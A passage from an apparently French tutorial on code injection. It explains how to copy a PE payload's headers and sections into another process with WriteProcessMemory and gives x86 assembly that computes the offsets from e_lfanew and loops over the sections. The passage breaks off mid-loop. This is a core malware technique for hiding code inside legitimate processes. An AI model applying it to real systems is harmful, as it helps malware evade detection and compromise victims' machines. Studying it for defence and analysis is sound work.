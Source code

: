 * OPTIONAL_HEADER

* DATA_DIRECTORIES

Pour connaitre la taille des headers, il y a un membre dans __NT_HEADER.OPTIONAL_HEADER__ qui est __SizeOfHeaders__. Il est situé à l'offset __0x54__ par rapport à __e\_lfanew__ et il donne donc la taille à copier à partir du début du fichier. J'utilise la fonction __WriteProcessMemory()__ pour cela: 

```
_writeProcessMemory:
	push		0	 	 ; bytesWritten

	mov 		ebx, [e_lfanew]
	lea 		eax, [payload+ebx+54h] ; NT_HEADER.OPTIONAL_HEADER.SizeOfHeaders
	mov 		eax, [eax]
	push		eax 		 ; bytesToWrite

	push		payload  	 ; buffer
	push		mem 		 ; address from VirtualAllocEx
	push		PrcInfo.hProcess ; hProcess
	call		WriteProcessMemory 
```

On peut ensuite y écrire les sections:

* .text

* .data

* .reloc

* ...

On utilise pour cela la meme technique. A noter que dans le header __NT_HEADER.FILE_HEADER__, il y a le membre __NumberOfSections__ qui donne le nombre de section. Il suffit alors de boucler dessus.

Pour copier les sections correctements, il faut leur taille, leur adresse ... On peut les trouver grâce à des offsets encore une fois. Regardez le screenshot suivant:

![image alt text](/images/code-injection/sections.png)

Le code qui permet de copier les sections devrait maintenant être clair. Ce n'est qu'une question de calcul d'offsets par rapport à __e\lfanew__:

```
; now we have to write the remaining sections of the PE to the process
	mov		ecx, 0 ; counter
	
_loopToWriteRemainingSections:
	push		ecx ; save the counter on the stack

	mov		eax, sizeof(IMAGE_SECTION_HEADER)
	mul		ecx
	mov 		ebx, [e_lfanew]
	lea 		esi, [payload+ebx+0F8h] ; address of first section name: .text, .data
	add		esi, eax

```